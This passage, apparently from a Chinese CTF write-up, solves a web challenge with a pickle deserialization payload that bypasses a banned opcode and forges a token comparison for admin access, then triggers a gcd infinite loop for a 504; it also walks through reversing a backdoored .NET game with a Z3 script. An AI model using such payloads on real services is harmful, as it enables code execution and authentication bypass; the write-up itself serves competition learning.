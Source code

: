 一眼看上去就是 pickle 反序列化利用。但是这里禁用了 `R` 指令，不过问题不大，这里可以直接用 `o` 来平替。即 `<func>(<args>tR` 等价于 `(<func><args>o`。把 pker.py 脚本简单修改一下之后就能拿来用了。

（这里队内的M神已经RCE了，但是发现没权限读nginx的配置文件，环境也是很新的好像并没有什么提权的机会）

然后下一步就是让 `token != hash(...)` 为 `False`，这个我一开始尝试从 `app.get_password` 和 `admin.secret` 拿密码，但是拿不到。所以尝试将 `token` 变成一个对象，然后把这个对象的 `__ne__` hack 为永远返回 `False`。

下为 payload：~~发现不知道为啥不需要绕 `secret`，不过要绕过也很简单，拿 `str.__add__` 绕即可~~

``` python
partial = GLOBAL('functools', 'partial')
getattr = GLOBAL('__builtin__', 'getattr')
OrderedDict = GLOBAL('collections', 'OrderedDict')
startswith = getattr(GLOBAL('__builtin__', 'str'), 'startswith')
User = GLOBAL('app', 'User')

false = partial(startswith, '1', '2')
user.__ne__ = false
forever_ne = User('1', '2')

data = OrderedDict()
data.token = forever_ne
data.username = 'admin'

return data
```

然后这个 payload 扔上去之后就进到了一个均衡负载页面。结合时事（指某垃圾二次元视频网站的事故分析），发现把 `weight` 设置成 0 可以让 `gcd` 函数死循环，最终 504 从而拿到 flag。

# Reverse
## GameMaster-Reverse-80
GitHub可以根据运行时的标题搜到原始的仓库，对照dnspy的结果简单看一下是多了一个大的后门函数，以及dll多了一个gencode，但是并没有用到。

exe里的后门函数有三个checkpoint，第一步取出message数据，第二步xor 34，第三步AES-ECB解密，密钥`Brainstorming!!!`

解密的文件前半段被赛博厨子识别为ttf字体，但是后半段显然有函数，导出给binwalk看一下被告知后半段有exe，但是没有自动分离出来，手动找到mz头分离出发现还是.net程序，继续给dnspy分析，定位到校验flag的函数，x y z三个ULONG变量未知，结果已知，flag密文已知，求得xyz即可获得解密密钥。  

结果的40个byte的每一位对应一轮的result，于是队友M神直接给Z3丢了320个约束条件，10秒就跑出来了xyz。

(怎么klee跑了10分钟都没结果呢。STP和Z3差距这么大吗)
```python
import z3

def rotate():
    global x, y, z
    x = ((((x >> 29) ^ (x >> 28) ^ (x >> 25) ^ (x >> 23)) & 1) | (x << 1)) & 0xFFFFFFFFF
    y = ((((y >> 30) ^ (y >> 27)) & 1) | (y << 1)) & 0xFFFFFFFFF
    z = ((((z >> 31) ^ (z >> 30) ^ (z >> 29) ^ (z >> 28) ^ (z >> 26) ^ (z >> 24)) & 1) | (z << 1)) & 0xFFFFFFFFF

def summary():
    global x, y, z
    return ((((z >> 32) & 1) & ((x >> 30) & 1)) ^ ((((z >> 32) & 1) ^ 1) & ((y >> 31) & 1))) & 1


x0, y0, z0 = z3.BitVecs('x y z', 33)
x, y, z = x0, y0, z0
```